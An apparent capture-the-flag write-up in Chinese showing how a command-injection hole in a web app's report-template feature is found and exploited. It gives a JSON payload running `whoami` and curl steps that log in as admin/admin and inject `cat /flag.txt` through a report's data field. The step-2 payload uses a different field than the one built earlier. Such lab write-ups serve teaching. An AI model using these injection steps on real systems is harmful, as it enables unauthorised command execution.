### 黑盒发现过程

通过仔细观察数据分析页面，可以发现以下线索：

1. **页面提示信息**: "支持自定义报告模板，可通过 template 字段定义动态内容生成规则"
2. **placeholder示例**: 显示了两种数据格式，其中高级模板格式包含了 `commands` 字段
3. **业务逻辑推测**: 模板系统通常需要执行某些命令来生成动态内容

### Payload 构造思路

基于页面提示和示例，构造看似合理的模板JSON：

```json
{
  "data": {
    "type": "system_analysis",
    "period": "monthly",
    "metrics": ["cpu", "memory", "disk"]
  },
  "template": {
    "template_type": "dynamic",
    "fields": ["performance", "usage"],
    "commands": ["whoami"]
  }
}
```

**黑盒发现逻辑**:
- `template`: 页面明确提到的模板功能
- `commands`: 从placeholder示例中可以看到这个字段
- 数组格式: 示例显示commands是一个数组，可以包含多个命令

### 完整利用步骤

#### 步骤 1: 登录系统
```bash
curl -X POST http://target:8080/login \
  -d "username=admin&password=admin" \
  -c cookies.txt
```

#### 步骤 2: 创建恶意报告
```bash
curl -X POST http://target:8080/analytics/create \
  -b cookies.txt \
  -d "title=测试报告" \
  -d "description=系统测试" \
  -d 'data={"data_processor":"config_update:exec:cat /flag.txt > /tmp/flag_output"}'
```

#### 步骤 3: 触发漏洞
访问刚创建的报告详情页面：
```bash
curl http://target:8080/analytics/1 -b cookies.txt
```
